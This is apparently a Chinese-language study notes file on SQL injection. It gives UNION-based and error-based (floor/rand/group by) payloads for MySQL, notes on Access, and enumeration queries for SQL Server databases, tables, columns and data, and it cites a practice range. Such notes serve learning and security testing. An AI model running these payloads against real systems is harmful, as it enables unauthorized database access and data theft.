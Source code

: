 # SQL注入



## MYSQL

### 注意点：

#### （1）使用union select的时候，如果两个表字符编码不一样，会报错：

```
payload：
select * from a where name = 'john' union select 1,concat(schema_name) from information_schema.schemata;

报错：
Illegal mix of collations for operation 'UNION'
```

解决方法：给union select的表一个 hex 然后再 unhex 即可

```
payload：
select * from a where name = 'john' union select 1,unhex(hex(schema_name)) from information_schema.schemata;

回显：
+----+--------------------+
| id | name               |
+----+--------------------+
|  1 | john               |
|  1 | information_schema |
|  1 | mysql              |
|  1 | performance_schema |
|  1 | test               |
+----+--------------------+
```

#### （2）子查询只能返回一行

使用Mysql子查询，需要使用limit 指定返回一行，或者group_content。

```
select * from a where name = 'john' union select 1,(select concat(0x2e,hex(schema_name),0x2e) from information_schema.schemata limit 0,1)

select * from a where name = 'john' union select 1,(select group_concat(0x2e,hex(schema_name),0x2e) from information_schema.schemata)
```



### 报错注入

#### floor + count + group by

```
（1）
select count(*),concat(0x7e,database(),0x7e,floor(rand(0)*2))x from information_schema.schemata group by x;
（2）
select count(*) from information_schema.schemata group by (concat(0x7e,database(),0x7e,floor(rand(0)*2)));
```

**原理：**

首先得对floor、count、group by的作用有所了解。floor为去除小数点式的取整，count为统计，group by 为分组。

rand(0)*2 是为了有一个稳定的序列，如果直接 rand() 的话，是产生随机数的，不稳定。

![](./mysql/1.png)

由于rand是产生介于0 到 1之间的多位小数数字。* 2 是为了能够通过 floor 将数字介于 数组 0 和 1之间：

 ![](./mysql/2.png)

在mysql内部实现时，group by 和count 会产生一个虚拟表，将分组和统计现在虚拟表中整理好，然后再返回来呈现给用户。

正常使用这个功能是没什么问题的，但是外面在字段中使用了 floor(rand(0)*2)，这就出现了问题：

![](./mysql/3.png)



![](./mysql/4.png)



我们可以使用concat，将我们想要显示的东西和floor(rand(0)*2)绑在一起，就可以显示出来了。

![](./mysql/5.png)

还可以用子查询：

```
select count(*) from information_schema.tables group by concat(0x7e,(select schema_name from information_schema.schemata limit 2,1),0x7e,floor(rand(0)*2));
```

![](./mysql/6.png)











## Access

access没有注释符号。。

access的表只能靠猜

字段名：

```
username
passwd
```



## SQL Server

### 基本：

（1）判断是否是sql server：

```
and (select count(*) from sysobjects) > 0
```

（2）查看版本

```
select @@version
```

（3）查看当前数据库

```
select db_name()
```



（4）查看所有数据库

```
select name from master..sysdatabases
```

一个个返回数据库名（sql server没有group_concat好像。。只能一个个返回）

基本语句：

```
select top 1 name from master..sysdatabases where name in (select top 3 name from master..sysdatabases order by name asc) order by name desc
```

**原理：**

子查询获取指定数量的数据，通过top关键字，逐一改变返回数据的最底部的值：

![](./sqlServer/4.png)

然后再通过外面的语句，使用order by将其倒序，这样拿到的就是可以通过子查询的top关键字改变的值了。

这里子查询需要指定asc，而主查询需要指定和子查询相反的排序。一定要加asc！因为默认不是按asc排序的，默认是按照插入顺序排序的。

union中使用，需要再套多一层子查询，因为主查询中，没有name这个字段，order by不了：

```
union all select NULL,name from master..sysdatabases where name in (select top 1 name from master..sysdatabases where name in (select top 5 name from master..sysdatabases order by name asc) order by name desc)
```



（5）查看所有数据表

```
select name from sysobjects where xtype='U'
```

查看别的数据表名就直接改为： 库名..表名

逐一返回数据表名

```
select top 1 name from sysobjects where name in (select top 3 name from  sysobjects where xtype='U' order by name asc) order by name desc
```

unoin中使用：

```
union all select NULL,name from sysobjects where name in (select top 1 name from sysobjects where name in (select top 4 name from sysobjects where xtype='U' order by name asc) order by name desc)
```



（6）查看所有字段

```
select top 1 col_name(object_id('test..t1'),1) from sysobjects
```

union中使用：

```
union all select top 1 NULL,col_name(object_id('test..t1'),2) from sysobjects
```



（7）查看数据：

```
union all select NULL,name from test..t1 where name in (select top 1 name from test..t1 where name in (select top 3 name from test..t1 order by name asc) order by name desc)
```



### 注意点：

（1）使用union select的时候，最好使用 union all select，具体为啥。。不知道。。**留个坑**。。

墨者的靶场：

https://www.mozhe.cn/bug/detail/90

![](./sqlServer/1.png)

![](./sqlServer/2.png)

![](./sqlServer/3.png)